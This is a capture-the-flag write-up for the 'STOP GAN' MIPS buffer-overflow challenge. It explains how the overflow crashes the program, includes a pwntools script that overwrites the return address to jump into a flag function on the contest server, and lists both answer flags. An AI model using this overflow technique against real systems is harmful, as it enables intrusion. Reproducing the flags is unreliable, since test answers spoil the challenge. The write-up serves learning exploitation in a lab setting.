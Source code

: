 [../](../../)

# STOP GAN (bof)

## pwn

> Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.
>
> buffer-overflow.ctfcompetition.com 1337
>
> [4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a](4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a)

You are given two binaries, the first one is a MIPS32 binary and the second one is simply a helper program to start the MIPS binary with `QEMU`.

The binary lets you input something into a buffer with a size of 260, so in order to crash the system, you have to input like 268 arbitrary characters to overwrite the `RIP` what leads to a segfault. Since the binary has a segfault handler, it then prints the first flag.

flag: `CTF{Why_does_cauliflower_threaten_us}`

The helper binary gives the hint, that you get another flag for controlling the overflow. So now we have to prepare our input and carefully overwrite the `RIP` with an address we want to jump to. Let's analyze the binary with `Ghidra` and see what we can do. It contains a function called `local_flag`, but we can not directly jump to it. We have to skip the first instructions.

Exploit script:

```python
from pwn import *


e = ELF('./bof')

# p = process('./bof')
p = remote('buffer-overflow.ctfcompetition.com', 1337)

p.sendline('run')
p.sendline('A' * 264 + p32(e.symbols['local_flag'] + 12))
p.interactive()
```

flag: `CTF{controlled_crash_causes_conditional_correspondence}`